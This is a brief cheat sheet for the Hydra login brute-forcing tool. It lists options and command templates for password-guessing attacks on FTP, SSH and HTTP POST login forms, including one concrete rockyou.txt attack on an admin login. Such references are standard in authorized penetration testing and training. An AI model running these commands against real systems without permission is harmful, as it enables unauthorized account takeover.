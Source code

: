 # [Hydra](https://github.com/vanhauser-thc/thc-hydra)

```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]
```

## Options:

`-l LOGIN` or `-L FILE`: login with LOGIN name, or load several logins from FILE

`-p PASS`  or `-P FILE`: try password PASS, or load several passwords from FILE

`-C FILE`: colon separated "login:pass" format, instead of -L/-P options

`-M FILE`: list of servers to attack, one entry per line, ':' to specify port

`-t TASKS`: run TASKS number of connects in parallel per target (default: 16)

`-m OPT`: options specific for a module, see -U output for information

## FTP:

```shell
hydra -l <username> -P <wordlist> ftp://<IP-address>
```

## SSH:

```shell
hydra -l <username> -P <wordlist> ssh://<IP-address> -t 4
```

```shell
hydra -l <username> -P <wordlist> <IP-address> -t 4 ssh
```

## Post Web Form:

```shell
hydra -l <username> -P <wordlist> <IP-address> http-post-form "<path>:<login_credentials>:<invalid_response>"
```

```shell
hydra -l admin -P rockyou.txt 10.10.1.64 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```